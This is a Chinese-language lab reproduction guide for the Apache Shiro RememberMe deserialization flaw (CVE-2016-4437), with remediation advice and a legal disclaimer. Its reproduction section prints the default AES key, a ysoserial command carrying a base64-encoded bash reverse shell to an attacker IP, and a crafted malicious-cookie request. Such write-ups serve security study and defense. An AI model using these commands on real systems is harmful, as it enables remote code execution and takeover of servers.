

## 目录
1. [漏洞概述](#漏洞概述)
2. [影响版本](#影响版本)
3. [漏洞原理](#漏洞原理)
4. [漏洞复现](#漏洞复现)
5. [修复方案](#修复方案)
6. [法律声明](#法律声明)

---

## 漏洞概述
Apache Shiro是一款广泛使用的Java安全框架，提供身份验证、授权、会话管理等功能。其反序列化漏洞（CVE-2016-4437）因RememberMe功能的加密密钥硬编码问题，导致攻击者可通过构造恶意Cookie实现远程代码执行（RCE）。

### 核心问题
- **密钥泄露**：Shiro ≤1.2.4版本使用默认AES密钥（如`kPH+bIxk5D2deZiIxcaaaA==`），攻击者可解密Cookie并篡改序列化数据。
- **反序列化触发**：反序列化过程中未校验数据合法性，结合Commons Collections等库的Gadget链执行任意命令。

---

## 影响版本
- **高危版本**：Apache Shiro ≤1.2.4  
- **安全版本**：≥1.2.5（需更换默认密钥）  
- **关联漏洞**：  
  - Shiro-721（Padding Oracle攻击，需登录凭证，影响≤1.4.1）

---

## 漏洞原理

### RememberMe功能流程


### 关键点
1. **Cookie构造**  
   RememberMe Cookie格式：`rememberMe=Base64(AES(序列化数据))`  
2. **利用链**  
   通过`JRMPListener`和`CommonsCollections`链实现二次反序列化攻击。

---

## 漏洞复现

### 环境搭建
#### 方式1：Docker Vulhub
```bash
cd /vulhub/shiro/CVE-2016-4437
docker-compose up -d  # 靶场地址：http://目标IP:8080
```

#### 方式2：本地IDEA
1. 下载Shiro 1.2.4源码：  
   ```bash
   git clone --branch shiro-root-1.2.4 https://github.com/apache/shiro
   ```
2. 导入`shiro-samples-web`模块，配置Tomcat并启动。

---

### 攻击步骤
#### 1. Kali准备环境
```bash
# 安装依赖
pip3 install pycrypto

# 监听反弹Shell
nc -lvp 7777

# 启动JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE0Mi4xMzIvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}"
```

#### 2. 生成恶意Cookie
```bash
python3 shiro.py 攻击机IP:8888  # 生成加密后的Cookie值
```

#### 3. 发送恶意请求（Burp抓包修改）
```http
POST /doLogin HTTP/1.1
Host: 目标IP:8080
Cookie: rememberMe=生成的恶意Cookie值
Content-Type: application/x-www-form-urlencoded

username=admin&password=任意值&rememberme=on
```

#### 4. 触发结果
- Kali终端接收反弹Shell，获得目标服务器权限。

---

## 修复方案

### 代码层修复
1. **升级Shiro**：  
   ```xml
   <dependency>
     <groupId>org.apache.shiro</groupId>
     <artifactId>shiro-core</artifactId>
     <version>1.7.1</version>
   </dependency>
   ```
2. **更换密钥**：  
   ```java
   // shiro.ini
   securityManager.rememberMeManager.cipherKey = 自定义Base64编码密钥
   ```

### 基础设施加固
- **禁用RememberMe**：非必要场景关闭该功能。
- **WAF规则**：拦截包含`rememberMe`关键字和异常序列化数据的请求。

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本文档内容仅用于安全研究与防御技术学习，严禁用于非法用途！**
```